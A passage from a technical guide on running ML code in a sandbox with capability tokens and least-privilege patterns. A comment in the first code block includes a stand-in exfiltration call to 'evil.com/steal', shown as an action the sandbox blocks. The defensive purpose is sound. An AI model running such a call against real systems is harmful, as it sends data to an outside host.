 ```python
        users = db.query("SELECT * FROM users");

        // CANNOT write files or access network
        // file.write("data/output.csv", data);  // Would fail
        // http.get("https://evil.com/steal");  // Would fail
    '''

    config = SandboxConfig(
        memory_limit="200MB",
        cpu_timeout=60.0,
        network_disabled=True,
        strict_mode=True
    )

    result, issues = execute_ml_code_sandbox(
        ml_code,
        context=ctx,
        sandbox_config=config,
        strict_security=True
    )

    if result.success:
        print("ML code executed within security boundaries")
    else:
        print(f"Security violation: {result.error}")
```

### 8.2 Capability Design Patterns

#### **Pattern 1: Least Privilege**

```python
# Grant only what's needed
def least_privilege_pattern(ml_script: str):
    """Execute ML with minimal capabilities."""

    # Analyze what ML code actually needs
    required_caps = analyze_ml_capabilities(ml_script)

    # Create tokens only for required capabilities
    tokens = []
    if "file.read" in required_caps:
        tokens.append(create_file_read_token(patterns=["data/*.json"]))

    if "database.read" in required_caps:
        tokens.append(create_db_read_token(tables=["users"]))

    # Execute with minimal capabilities
    ctx = create_context_with_tokens(tokens)
    execute_ml_code_sandbox(ml_script, context=ctx)
```
